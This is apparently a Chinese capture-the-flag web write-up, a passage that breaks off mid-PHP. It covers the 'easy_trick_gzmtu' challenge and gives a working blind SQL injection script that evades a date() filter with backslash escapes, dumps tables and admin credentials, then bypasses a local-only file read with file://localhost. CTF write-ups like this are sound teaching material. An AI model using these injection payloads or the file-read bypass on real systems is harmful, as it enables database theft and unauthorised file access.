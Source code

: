 ```yaml
---
title: 2020 高校战“疫”网络安全分享赛部分WEB WriteUp
tags:
  - CTF
  - WriteUp
date: 2020-03-09 20:42:59
toc: true
---
```


这周末遇上高校战“疫”赛，打了两天，这里记录一下做的和参与做的几道题


## easy_trick_gzmtu

传入2020 和Y都能查出结果，传入y20，yy，20y也可以，
猜测后端对参数做了date()转换，用\可以使date后的字符串不变，于是构造盲注脚本
```python
import requests

se = requests.Session()

pl = r'http://121.37.181.246:6333/?time=0%%27||(\a\s\c\i\i(\s\u\b\s\t\r((\s\e\l\e\c\t%%20\d\a\t\a\b\a\s\e()),%d,1)))=%d%%23'
pl = r'http://121.37.181.246:6333/?time=0%%27||(\a\s\c\i\i(\s\u\b\s\t\r((\s\e\l\e\c\t%%20\g\r\o\u\p_\c\o\n\c\a\t(\t\a\b\l\e_\n\a\m\e)%%20\f\r\o\m%%20\i\n\f\o\r\m\a\t\i\o\n_\s\c\h\e\m\a.\t\a\b\l\e\s \w\h\e\r\e \t\a\b\l\e_\s\c\h\e\m\a=\d\a\t\a\b\a\s\e()),%d,1)))=%d%%23'
pl = r'http://121.37.181.246:6333/?time=0%%27||(\a\s\c\i\i(\s\u\b\s\t\r((\s\e\l\e\c\t%%20\g\r\o\u\p_\c\o\n\c\a\t(\c\o\l\u\m\n_\n\a\m\e)%%20\f\r\o\m%%20\i\n\f\o\r\m\a\t\i\o\n_\s\c\h\e\m\a.\c\o\l\u\m\n\s%%20\w\h\e\r\e%%20\t\a\b\l\e_\n\a\m\e=%%27\a\d\m\i\n%%27),%d,1)))=%d%%23'
pl = r'http://121.37.181.246:6333/?time=0%%27||(\a\s\c\i\i(\s\u\b\s\t\r((\s\e\l\e\c\t%%20\g\r\o\u\p_\c\o\n\c\a\t(\u\r\l)%%20\f\r\o\m%%20\a\d\m\i\n),%d,1)))=%d%%23'
text = ''

for x in xrange(1,50):
        for y in xrange(33,126):
                res = se.get(pl % (x,y))
                if 'Hello World --Brian Kernighan' in res.content:
                        text += chr(y)
                        print text
                        break
```
注入出一个admin用户
```http
账号 admin
密码 20200202goodluck
URL：http://121.37.181.246:6333/eGlhb2xldW5n/
```
有个读文件的地方，限制了只能本地读取文件，发现`file://localhost/`可以绕过
```http
http://121.37.181.246:6333/eGlhb2xldW5n/check.php?url=file://localhost/var/www/html/eGlhb2xldW5n/eGlhb2xldW5nLnBocA==.php
```
```php
<?php

class trick{
	public $gf;
	public function content_to_file($content){	
		$passwd = $_GET['pass'];
		if(preg_match('/^[a-z]+\.passwd$/m',$passwd)) 
	{ 

		if(strpos($passwd,"20200202")){
```